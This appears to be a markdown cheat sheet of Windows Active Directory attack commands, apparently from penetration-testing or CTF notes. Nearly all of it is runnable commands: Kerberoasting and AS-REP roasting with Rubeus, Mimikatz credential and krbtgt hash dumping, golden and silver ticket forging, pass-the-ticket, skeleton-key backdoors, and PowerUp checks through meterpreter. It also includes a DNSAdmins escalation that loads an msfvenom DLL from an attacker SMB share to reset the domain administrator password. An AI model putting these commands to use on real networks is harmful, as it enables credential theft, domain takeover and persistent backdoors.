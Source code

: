 * `Invoke-Kerberoast.ps1` - upload from kali and run `Invoke-Kerberoast -OutputFormat hashcat | fl`
* `Invoke-Mimikatz -command '"base64 /output:true" "kerberos::list /export"'` - export tickets to base64
* `kirbi2john file.kirbi hash.txt` - convert .kirbi tickets to crackable hash format
* https://github.com/GhostPack/Rubeus
  * Rubeus.exe harvest /interval:30 -- This command tells Rubeus to harvest for TGTs(tickets) every 30 seconds
  * Rubeus.exe brute /password:Password1 /noticket -- bruteforcing. you must add the domain controller domain name to windows hosts before using rubeus.exe `echo 127.0.0.1 example.com >> C:\Windows\System32\drivers\etc\hosts`
  * Rubeus.exe kerberoast -- kerberosting. This will dump the Kerberos hash of any kerberoastable users. use hashcat -m 13100 -a 0 hash wordlist for hash type `$krb5tgs$23`
  * Rubeus.exe asreproast -- AS-Rep roasting. Dumping KRBASREP5 Hashes. Be sure to Insert `23$` after `$krb5asrep$` so that the first line will be `$krb5asrep$23`. use hashcat -m 18200 for hash type `$krb5asrep$23$`
  * mimikatz.exe -- this will enter a mimikatz interactive cli
    * `privilege::debug` -- this will show `Privilege '20' OK` if you have admin privileges. mimikatz will not run properly if you do not have admin rights.
    * `sekurlsa::tickets /export` -- this will export all of the .kirbi tickets into the directory that you are currently in. this will also show the base 64 encoded tickets.
      * you wanting to impersonate a ticket. look for an administrator ticket from krbtgt. example `mimikatz # kerberos::ptt [0;3d27e]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi` this will cache and impersonate the ticket
    * `lsadump::lsa /inject /name:krbtgt` -- Dump the krbtgt Hashes. This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
    * `lsadump::lsa /patch` -- dump hashes
    * `kerberos::golden /user:administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 <--primary ntlm hash /id:500` -- This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
    * `misc::cmd` -- this will open a new elevated command prompt with the given ticket in mimikatz
    * `misc::skeleton` -- Installing Kerberos Backdoors.
  * `klist` to verify the impersonated ticket as this will list cached tickets. having impersonated tickets can give you access to sensitive data or server
  * one liner mimikatz `C:\windows\system32\spool\drivers\color\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all" "lsadump::sam" "sekurlsa::tickets" "exit"`
  * automate Misconfiguration Checks with `PowerUp.ps1`
    * using meterpreter shell
      1. `meterpreter > upload /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1`
      2. `meterpreter > load powershell`
      3. `meterpreter > powershell_shell`
      4. `PS > . .\PowerUp.ps1`
      5. `PS > Invoke-AllChecks`

### DNSadmins to system -- user must be apart of the dnsadmins group

* create dll `msfvenom -p windows/x64/exec cmd='net user administrator Password! /domain' -f dll > da.dll`
* create smbshare to evade WindowsDefenderr `sudo smbserver.py share ./`
* retrieve and set the remote path to the dll into windows reg `cmd /c dnscmd localhost /config /serverlevelplugindll \\IP\share\da.dll` smb server must be running
* restart dns on windows machine
  1. sc.exe stop dns
  2. sc.exe start dns
  3. Scheduled Tasks
     * schtasks -- you may see a scheduled task that either lost its binary or using a binary you can modify.
  4. Saved credentials -- `cmdkey /list` will saved credentials
     * If you see any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below. `runas /savecred /user:admin reverse_shell.exe`